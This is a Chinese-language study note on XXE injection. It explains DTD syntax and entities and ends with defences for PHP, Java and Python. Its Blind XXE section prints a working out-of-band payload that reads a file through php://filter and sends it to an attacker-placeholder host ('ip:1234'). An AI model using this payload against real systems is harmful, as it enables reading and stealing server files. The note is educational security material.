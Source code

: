 # XXE

## XML DTD

### •内部DTD

•当DTD在XML内部声明时，要用使用DOCTYPE语法包装声明，如右图

![image-20220804143805448](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804143805448.png)

•定义根元素为book，其子元素为name和price，其类型为“#PCDATA”

![image-20220804143810141](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804143810141.png)

•内部实体声明

•格式为 <**!ENTITY** 实体名称 "实体的值">

•DTD实体声明：

![image-20220804144007880](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804144007880.png)

•XML调用：![image-20220804144010461](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804144010461.png)

### •外部DTD

•通过外部文件的方式来引入DTD，导入格式为：

 <**!DOCTYPE** 根元素名称 **SYSTEM** "外部DTD的URI">

•其中外部DTD可以为本地文件也可以为远程文件

![image-20220804143834298](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804143834298.png)

•外部实体声明

•格式为 <**!ENTITY** 实体名称 **SYSTEM** "URI/URL">

•DTD实体声明：

![image-20220804144024203](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804144024203.png)

•XML调用：

![image-20220804144027990](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804144027990.png)

### •公用DTD

•与外部DTD类似，需要将SYSTEM换成PUBLIC，同时需要指定一个标识名：

 **<****!DOCTYPE** 根元素名称 **PUBLIC** "DTD标识名" "公用DTD的URI">

•下图为Spring配置文件中引用的公用DTD：

![image-20220804143902619](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804143902619.png)

## **XML** **实体**

•XML实体是XML的组成之一，指一个预先定义的*数据或数据集合*

•XML中预定义了5个特殊实体，用来代替几个在XML中有特殊意义的字符：

| 实体名 | 对应字符 | 含义            |
| ------ | -------- | --------------- |
| &lt;   | <        | less  than      |
| &gt;   | >        | greater  than   |
| &amp;  | &        | ampersand       |
| &apos; | '        | apostrophe      |
| &quot; | "        | quotation  mark |

## PHP部分

### 漏洞简介

•XML外部实体注入漏洞（XML External Entity Injection，XXE）

•当XML文档可以由攻击者任意构造时，其中的外部实体就会被远程服务器解析，执行其中的内容

•攻击者可以在外部引用中使用多种协议，进行文件读取、命令执行等操作

•是SSRF攻击的一种特殊形式

![image-20220804143533147](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804143533147.png)

•结论

1.未对XML文档作任何过滤，解析后回显username内容

2.未禁用外部实体

![image-20220804143706611](C:\Users\Lightstar\AppData\Roaming\Typora\typora-user-images\image-20220804143706611.png)

### Blind XXE

•当远程服务器没有回显的时候，则无法通过这种方式直接读取文件内容

•此时，可以考虑将数据通过带外通道（OOB）取出

•首先读取文件内容，然后访问攻击者服务器，将读取到的文件内容作为URL参数带出

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY[

<!ENTITY % send SYSTEM 'http://ip:8877/test.dtd'>

  %send;

  %test;

  %back;

]>



test.dtd:

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///tmp/flag">

<!ENTITY % test "<!ENTITY &#37; back SYSTEM 'http://ip:1234/?file=%file;'>">
```



利用python3起一个简单的web服务，命令`python3 -m http.server [port]`，然后再web目录(/var/www)下放相对应的文件，即可远程文件读取。

## **XXE** **漏洞防御**

1.过滤用户提交的XML数据

•如 <!DOCTYPE 、<!ENTITY 、SYSTEM 、PUBLIC

2.禁用外部实体

```php
•PHP

•libxml_disable_entity_loader(true);
```

```java
•Java 

•DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();

•dbf.setExpandEntityReferences(false);
```

```python
•Python

•from lxml import etree

•xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

## `XXE `进阶

1.  `localdtd`
2.  `javaxxe`